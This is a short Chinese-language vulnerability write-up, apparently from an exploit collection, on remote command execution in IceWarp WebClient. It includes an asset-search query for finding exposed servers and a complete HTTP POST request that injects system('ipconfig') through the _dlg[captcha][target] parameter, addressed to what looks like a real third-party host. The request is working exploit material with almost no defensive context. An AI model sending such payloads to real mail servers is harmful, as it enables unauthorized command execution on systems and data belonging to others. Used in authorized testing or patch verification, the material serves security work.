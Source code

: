 # IceWarp WebClient basic 远程命令执行漏洞

## 漏洞描述

IceWarp WebClient 存在远程命令执行漏洞，攻击者构造特殊的请求即可远程命令执行

## 漏洞影响 

```
IceWarp WebClient
```

## 网络测绘

```
app="IceWarp-公司产品"
```

## 漏洞复现

登录页面如下

![](./images/202202101850566.png)



漏洞请求包为

```plain
POST /webmail/basic/ HTTP/1.1
Host: sd.sahadharawat.com
Content-Type: application/x-www-form-urlencoded
Cookie: use_cookies=1
Content-Length: 43

_dlg[captcha][target]=system(\'ipconfig\')\
```



![](./images/202202101851258.png)